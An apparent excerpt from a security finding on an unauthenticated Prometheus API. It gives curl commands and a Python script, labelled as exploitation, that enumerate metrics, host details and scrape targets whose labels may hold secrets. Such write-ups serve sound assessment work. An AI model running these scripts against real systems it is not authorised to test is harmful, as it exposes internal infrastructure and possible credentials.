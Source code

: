 **Setup Requirements**:
- Network access to Prometheus port 9090

**Manual Exploitation**:
```bash
# Step 1: Enumerate all metrics
curl http://localhost:9090/api/v1/label/__name__/values | jq

# Step 2: Extract sensitive system information
curl http://localhost:9090/api/v1/query?query=node_uname_info | jq

# Step 3: Get all targets and their labels (may contain secrets)
curl http://localhost:9090/api/v1/targets | jq '.data.activeTargets[].labels'

# Step 4: Extract environment variables from process metrics
curl http://localhost:9090/api/v1/query?query=node_processes_cmdline | jq
```

**Automated Exploitation Script**:
```python
#!/usr/bin/env python3
import requests
import json

def extract_prometheus_info(target):
    """Extract sensitive information from Prometheus"""
    print(f"[*] Extracting information from {target}")
    
    # Get all available metrics
    metrics = requests.get(f"{target}/api/v1/label/__name__/values").json()
    print(f"[+] Found {len(metrics['data'])} metrics")
    
    # Extract system information
    sensitive_queries = [
        "node_uname_info",
        "node_os_info", 
        "process_start_time_seconds",
        "prometheus_config_last_reload_successful",
        "up{job=~'.*'}",
    ]
    
    for query in sensitive_queries:
        r = requests.get(f"{target}/api/v1/query?query={query}")
        if r.status_code == 200:
            data = r.json()
            if data.get('data', {}).get('result'):
                print(f"\n[+] Results for {query}:")
                print(json.dumps(data['data']['result'], indent=2))
    
    # Get all targets (may reveal internal infrastructure)
    targets = requests.get(f"{target}/api/v1/targets").json()
    print("\n[+] Active targets:")
    for target in targets['data']['activeTargets']:
        print(f"  - {target['scrapeUrl']} ({target['health']})")
        if target.get('labels'):
            print(f"    Labels: {target['labels']}")

if __name__ == "__main__":
    extract_prometheus_info("http://localhost:9090")
```
